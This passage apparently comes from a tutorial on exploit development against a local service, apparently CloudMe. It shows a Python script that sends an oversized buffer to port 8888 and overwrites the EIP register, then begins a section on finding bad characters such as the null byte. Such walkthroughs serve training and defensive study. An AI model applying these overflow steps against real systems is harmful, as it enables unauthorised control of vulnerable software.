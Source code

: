 We restart the application, reattach Immunity Debugger and run the script:

```
#!/usr/bin/python3
import socket,time

buffer=b"A" * 1052 + b"B" * 4 + b"C" * 200

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1",8888))

s.send(buffer)
```

As expected, the EIP record was overwritten with the four "B" characters:

![eipcontrol](/assets/imgs/cloudme/eipcontrol.png)

------

## Testing for Bad Characters

Some programs will often consider certain characters as "**bad**", and the only thing that means is that if they are found with one of them, this will cause a corruption of the rest of the data contained in the instruction sent to the application, not allowing the program interpret it correctly. A character that is almost always considered bad is x00, since it is a null byte and terminates the rest of the application code.
